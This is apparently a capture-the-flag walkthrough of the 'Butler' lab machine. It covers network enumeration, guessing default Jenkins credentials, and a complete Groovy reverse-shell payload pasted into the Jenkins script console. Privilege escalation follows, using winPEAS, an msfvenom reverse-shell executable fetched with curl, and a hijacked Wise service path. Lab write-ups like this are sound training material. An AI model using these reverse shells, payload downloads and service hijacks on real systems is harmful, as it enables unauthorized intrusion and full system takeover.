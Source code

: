# Butler

## Ennumeration <a href="#ennumeration" id="ennumeration"></a>

```
sudo netdiscover -r 10.0.2.0/24

 10.0.2.80       08:00:27:59:23:51      1      60  PCS Systemtechnik GmbH                                                                                  
```

* nmap

```
nmap -T4 -p- -A 10.0.2.80      

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-16 14:14 EST
Nmap scan report for 10.0.2.80
Host is up (0.00025s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Jetty 9.4.41.v20210516
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.41.v20210516)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:59:23:51 (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2022-02-17T03:18:23
|_  start_date: N/A
|_clock-skew: 7h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 267.15 seconds
```

## Jenkins <a href="#jenkins" id="jenkins"></a>

[http://10.0.2.80:8080/](http://10.0.2.80:8080/)

* Password spraying with Cluster bomb inside Burp Suite

Found

user: Jenkins pass: Jenkins

Manage Jenkins -> Scrip console

```
http://10.0.2.80:8080/script
```

Search on google for groovy remote shell

* Attacker machine

```
nc -nvlp 8044
```

* Jenkins Console

```
String host="10.0.2.10";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

* Result

```
nc -nvlp 8044                                                                                                                                     127 ⨯
listening on [any] 8044 ...
connect to [10.0.2.10] from (UNKNOWN) [10.0.2.80] 50814
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>whoami
whoami
butler\butler

C:\Program Files\Jenkins>
```

### Privilege escalation <a href="#privilege-scalation" id="privilege-scalation"></a>

[PEASS-ng](https://github.com/carlospolop/PEASS-ng)

Download the X64 version for windows

Can use the `python3 -m http.server 80` to create a socket and connection or download directly inside the machine

```
curl http://10.0.2.10/winPEASx64.exe --output winpeas.exe

winpeas.exe
```

* The juicy part of the output

```
����������͹ Scheduled Applications --Non Microsoft--
� Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries                                                                                                                                              
    (Lespeed Ltd.) Wise Care 365.job: C:\Program Files (x86)\Wise\Wise Care 365\WiseTray.exe -StartTray
    Permissions file: Administrators [AllAccess]
    Permissions folder(DLL Hijacking): Administrators [AllAccess]
    Trigger: At log on of any user
   =================================================================================================

    (Lespeed Ltd.) Wise Turbo Checker.job: C:\Program Files (x86)\Wise\Wise Care 365\WiseTurbo.exe 
    Permissions file: Administrators [AllAccess]
    Permissions folder(DLL Hijacking): Administrators [AllAccess]
    Trigger: At 5:35 AM every day
   =================================================================================================
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

With that, we can put an executable in this path, and it will treat as part of the service

* Generate reverse shell with msfvenom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.10 LPORT=7777 -f exe > Wise.exe
```

* Download and execute malware

On attacker machine, open another shell

```
nc -nvlp 7777
```

On vulnerable machine

```
cd "C:\Program Files (x86)\Wise"
curl http://10.0.2.10/Wise.exe -o Wise.exe

sc stop WiseBootAssistant
sc start WiseBootAssistant
```

```
nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.0.2.10] from (UNKNOWN) [10.0.2.80] 49695
Microsoft Windows [Version 10.0.19043.1526]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

\
